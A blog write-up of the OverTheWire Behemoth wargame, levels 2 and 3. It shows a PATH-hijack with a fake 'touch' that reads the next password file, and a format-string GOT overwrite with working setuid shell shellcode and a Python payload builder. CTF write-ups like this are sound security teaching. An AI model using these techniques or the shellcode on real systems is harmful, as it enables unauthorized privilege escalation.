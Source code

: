 ```yaml
---
layout: post
title: behemoth-writeup-02-03
excerpt: "Writeup for the Behemoth (L02 & L03) wargame on overthewire.org."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / behemoth](http://www.overthewire.org/wargames/behemoth/)

## Level 2 ##

This one started off as a bit of a fun one:

``` shell
behemoth2@behemoth:/behemoth$ ./behemoth2
touch: cannot touch '180': Permission denied
^C
behemoth2@behemoth:/behemoth$ ./behemoth2
touch: cannot touch '186': Permission denied
^C
```

A run through `strace` yields more information:

``` shell
behemoth2@behemoth:/behemoth$ strace ./behemoth2
execve("./behemoth2", ["./behemoth2"], [/* 21 vars */]) = 0
[ Process PID=204 runs in 32 bit mode. ]
...
getpid()                                = 204
lstat64("204", 0xffffd5c0)              = -1 ENOENT (No such file or directory)
unlink("204")                           = -1 ENOENT (No such file or directory)
rt_sigaction(SIGINT, {SIG_IGN, [], 0}, {SIG_DFL, [], 0}, 8) = 0
rt_sigaction(SIGQUIT, {SIG_IGN, [], 0}, {SIG_DFL, [], 0}, 8) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
clone(child_stack=0, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0xffffd500) = 205
waitpid(205, touch: cannot touch '204': Permission denied
[{WIFEXITED(s) && WEXITSTATUS(s) == 1}], 0) = 205
rt_sigaction(SIGINT, {SIG_DFL, [], 0}, NULL, 8) = 0
rt_sigaction(SIGQUIT, {SIG_DFL, [], 0}, NULL, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=205, si_status=1, si_utime=0, si_stime=0} ---
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
rt_sigaction(SIGCHLD, NULL, {SIG_DFL, [], 0}, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
nanosleep({2000, 0}, ^CProcess 204 detached
 <detached ...>
```

We now see where that number comes from - it's the process' PID - and the pause is due to the call to `sleep`. Mmm.

Looking at the binary through `strings`, we see something of interest:

``` shell
behemoth2@behemoth:/behemoth$ strings behemoth2 | egrep -v -e'^(\.|_)'
/lib/ld-linux.so.2
libc.so.6
sprintf
unlink
getpid
system
sleep
GLIBC_2.4
GLIBC_2.0
PTRh
QVhm
cat
D$(
[^_]
touch %d
;*2$"
GCC: (Ubuntu 4.8.4-2ubuntu1~14.04.3) 4.8.4
crtstuff.c
deregister_tm_clones
register_tm_clones
completed.6591
frame_dummy
behemoth2.c
data_start
sleep@@GLIBC_2.0
unlink@@GLIBC_2.0
lstat
getpid@@GLIBC_2.0
system@@GLIBC_2.0
main
sprintf@@GLIBC_2.0
```

And that's the way `touch` is invoked. It's a little sneaky but you'll notice it's not using an absolute path. If this was `/usr/bin/touch` instead there isn't much we could have done. But what will happen is that the program will look for the first available `touch` in `$PATH`.

With this in mind we can create a 'fake' touch that might just output the password file.

``` shell
behemoth2@behemoth:/behemoth$ cd /tmp
behemoth2@behemoth:/tmp$ cat > touch
#!/bin/sh
/bin/cat /etc/behemoth_pass/behemoth3
behemoth2@behemoth:/tmp$ chmod +x /tmp/touch
behemoth2@behemoth:/tmp$ PATH=/tmp:$PATH /behemoth/behemoth2
*** password ***
^C
```

Nice!

PS: I should note I tried a whole bunch of other stuff before deciding to start on a clean slate - it looks straightforward when put that way but it was anything but!

## Level 3 ##

At first glance we have a binary that takes user input and displays it back to us:

``` shell
behemoth3@behemoth:/behemoth$ ./behemoth3
Identify yourself: santa
Welcome, santa

aaaand goodbye again.
```

Could it be passing our input directly?

``` shell
behemoth3@behemoth:/behemoth$ echo 'AAAABBBB-%.x-%.x-%.x-%.x-%.x-%.x-%.x' | ./behemoth3
Identify yourself: Welcome, AAAABBBB-c8-f7fccc20-f7ff2e76-2-f7ffd000-41414141-42424242

aaaand goodbye again.
```

Right - format string exploitation time! The plan is to stick shellcode in an environment variable and get the binary to execute it. What address though? A quick glance through the binary doesn't reveal much:

``` shell
behemoth3@behemoth:/behemoth$ gdb -batch -ex 'file behemoth3' -ex 'disassemble main'                    Dump of assembler code for function main:
   0x0804847d <+0>:     push   %ebp
   0x0804847e <+1>:     mov    %esp,%ebp
   0x08048480 <+3>:     and    $0xfffffff0,%esp
   0x08048483 <+6>:     sub    $0xe0,%esp
   0x08048489 <+12>:    movl   $0x8048570,(%esp)
   0x08048490 <+19>:    call   0x8048330 <printf@plt>
   0x08048495 <+24>:    mov    0x80497a4,%eax
   0x0804849a <+29>:    mov    %eax,0x8(%esp)
   0x0804849e <+33>:    movl   $0xc8,0x4(%esp)
   0x080484a6 <+41>:    lea    0x18(%esp),%eax
   0x080484aa <+45>:    mov    %eax,(%esp)
   0x080484ad <+48>:    call   0x8048340 <fgets@plt>
   0x080484b2 <+53>:    movl   $0x8048584,(%esp)
   0x080484b9 <+60>:    call   0x8048330 <printf@plt>
   0x080484be <+65>:    lea    0x18(%esp),%eax
   0x080484c2 <+69>:    mov    %eax,(%esp)
   0x080484c5 <+72>:    call   0x8048330 <printf@plt>
   0x080484ca <+77>:    movl   $0x804858e,(%esp)
   0x080484d1 <+84>:    call   0x8048350 <puts@plt>
   0x080484d6 <+89>:    mov    $0x0,%eax
   0x080484db <+94>:    leave
   0x080484dc <+95>:    ret
End of assembler dump.
```

We do not however the call to `puts@plt`. This means `puts`' address will actually be resolved at runtime. We can look into the `GOT` to find out where the lookup will happen:

``` shell
abehemoth3@behemoth:/behemoth$ objdump -R behemoth3

behemoth3:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049778 R_386_GLOB_DAT    __gmon_start__
080497a4 R_386_COPY        stdin
08049788 R_386_JUMP_SLOT   printf
0804978c R_386_JUMP_SLOT   fgets
08049790 R_386_JUMP_SLOT   puts
08049794 R_386_JUMP_SLOT   __gmon_start__
08049798 R_386_JUMP_SLOT   __libc_start_main
```

`0x08049790` will do nicely!

From there on it's fairly mechanical. We start by finding the address of our environment variable:

``` shell
behemoth3@behemoth:/tmp$ env -i SHELLCODE=$(python -c 'print  "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80"') /tmp/moth_behemoth3 SHELLCODE
SHELLCODE is at 0xffffdfc0
```

(`/tmp/moth_behemoth3` is nothing more than a standard `getenv` wrapper of the same length as the binary)

And build our payload. I got a little bored with the arithmetic so here's a small function that does the needful:

``` shell
from pwnlib.util.packing import p32
def s(addr=0x08049790, value=0xffffdfc0, offset=6):
  lob = value & 0xffff
  hob = (value >> 16) &0xffff

  a = lob-0x8 if hob > lob else hob-0x8
  offset1 = offset + 1 if hob > lob else offset
  b = hob-lob if hob > lob else lob-hob
  offset2 = offset if hob > lob else offset

  return '{addr2}{addr}%.{a}x%{offset1}$hn%.{b}x%{offset2}$hn'.format(addr=p32(addr),addr2=p32(addr+0x2), a=a,b=b,offset1=offset1,offset2=offset2)
```

Giving us:

``` shell
▒▒%.57272x%7$hn%.8255x%6$hn
```

Which we'll just save to file for ease of use. Let's just check we're on the write track:

``` shell
behemoth3@behemoth:/behemoth$ cat /tmp/payload | env -i strace /behemoth/behemoth3 2>&1 | grep si_addr  --- SIGILL {si_signo=SIGILL, si_code=ILL_ILLOPN, si_addr=0xffffdfca} ---
```

Putting it all together:

``` shell
behemoth3@behemoth:/behemoth$ (cat /tmp/payload;cat) | env -i SHELLCODE=$(python -c 'print  "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80"') /behemoth/behemoth3
...
whoami
behemoth4
cat /etc/behemoth_pass/behemoth4
*** password ***
```

Done!
